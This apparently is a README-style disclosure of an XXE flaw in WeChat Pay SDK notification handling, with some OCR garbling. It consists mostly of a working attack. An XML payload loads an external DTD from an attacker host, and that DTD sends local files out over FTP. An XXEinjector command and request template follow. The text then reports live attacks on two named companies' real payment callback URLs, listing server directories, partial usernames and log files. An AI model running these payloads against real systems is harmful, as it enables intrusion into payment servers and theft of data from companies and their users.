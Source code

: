 # WeChatPaySDK-Demo

<?xml version="1.0" encoding="utf-8"?>

<!DOCTYPE root [

  <!ENTITY % attack SYSTEM "file:///etc/">

  <!ENTITY % xxe SYSTEM "http://attacker:8080/shell/data.dtd">

  %xxe;

]>


data.dtd:


<!ENTITY % shell "<!ENTITY &#x25; upload SYSTEM 'ftp://attack:33/%attack;
'>">

%shell;

%upload;



or use  XXEinjector tool  ahttps://github.com/enjoiz/XXEinjectora


ruby XXEinjector.rb --host=attacker --path=/etc   --file=req.txt --ssl


req.txt :

POST merchant_notification_url HTTP/1.1

Host:  merchant_notification_url_host

User-Agent: curl/7.43.0

Accept: */*

Content-Length: 57

Content-Type: application/x-www-form-urlencoded


XXEINJECT





In order to prove this, I got 2 chinese famous company:

   aamomo: Well-known chat tools like WeChat

   bavivo i1/4China's famous mobile phone,that also famous in my country



Example  momo :

  attack:

     notify url:    https://pay.immomo.com/weixin/notify

              cmd:  /home/



      result:



      ***

      logs

      zhang.jiax**

      zhang.shaol**

      zhang.xia**

      ****


    attack:

     notify url:    https://pay.immomo.com/weixin/notify

              cmd:  /home/logs



      result:

      ***

       moa-service

       momotrace

      ****


Example  vivo :

  attack:

     notify url:   https://pay.vivo.com.cn/webpay/wechat/callback.oo

              cmd: /home/



      result:

         tomcat


  attack:

     notify url:   https://pay.vivo.com.cn/webpay/wechat/callback.oo

              cmd: /home/tomcat

     result:

        .bash_logout

.bash_profile

.bashrc

logs


 attack:

     notify url:   https://pay.vivo.com.cn/webpay/wechat/callback.oo

              cmd: /home/tomcat/logs

     result:

           ****

           tomcat-2018-06-28.log

  tomcat-2018-06-29.log

  tomcat-2018-06-30.log
